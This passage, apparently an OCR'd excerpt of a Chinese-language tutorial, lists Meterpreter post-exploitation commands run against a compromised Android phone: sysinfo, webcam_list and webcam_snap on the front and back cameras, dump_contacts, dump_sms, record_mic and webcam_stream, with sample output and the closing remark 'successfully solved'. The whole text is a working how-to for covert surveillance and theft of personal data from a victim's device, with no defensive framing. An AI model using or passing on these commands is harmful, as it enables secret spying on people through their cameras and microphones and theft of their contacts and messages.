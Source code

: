 7.查看手机信息sysinfo

8.查看摄像头

meterpreter > webcam_list
1: Back Camera
2: Front Camera

9.启动摄像头拍照

webcam_snap -i 1

webcam_snap -i 2

dump_contacts  --》这个是导出电话

dump_sms         --》这个是导出信息

record_mic   Record audio from the default microphone for X seconds

webcam_chat  Start a video chat

webcam_list  List webcams

webcam_snap  Take a snapshot from the specified webcam

webcam_stream Play a video stream from the specified webcam

成功解决